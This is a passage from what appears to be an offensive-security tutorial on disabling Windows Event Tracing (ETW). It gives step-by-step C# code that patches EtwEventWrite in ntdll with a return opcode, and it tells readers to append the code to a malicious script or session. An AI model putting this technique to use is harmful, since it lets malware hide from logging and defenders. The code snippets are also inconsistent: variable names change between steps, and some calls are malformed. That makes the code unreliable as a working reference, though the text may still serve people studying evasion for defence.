 At step one, we need to obtain a handle for the address of `EtwEventWrite`. This function is stored within `ntdll`. We will first load the library using `LoadLibrary` then obtain the handle using `GetProcAddress`.

```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

At step two, we need to modify the memory permissions of the function to allow us to write to the function. The permission of the function is defined by the `flNewProtect` parameter; `0x40` enables X, R, or RW access ([memory protection constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)).

```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```

At step three, the function has the permissions we need to write to it, and we have the pre-defined opcode to patch it. Because we are writing to a function and not a process, we can use the infamous `Marshal.Copy` to write our opcode.

```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```

At step four, we can begin cleaning our steps to restore memory permissions as they were.

```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```

At step five, we can ensure the patched function will be executed from the instruction cache.

```csharp
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

We can compile these steps together and append them to a malicious script or session. Use the C# script provided and experiment with this technique.

After the opcode is written to memory, we can view the disassembled function again to observe the patch.
